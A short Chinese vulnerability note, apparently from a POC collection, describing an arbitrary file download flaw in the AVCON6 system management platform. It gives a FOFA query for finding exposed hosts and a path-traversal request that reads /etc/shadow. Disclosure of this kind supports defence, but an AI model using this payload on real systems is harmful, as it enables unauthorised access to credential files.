 # AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 org_execl_download.action存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## FOFA

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](./images/202202101910822.png)

验证POC

```php
/org_execl_download.action?filename=../../../../../../../../../../../../../etc/shadow
```

![img](./images/202202101910818.png)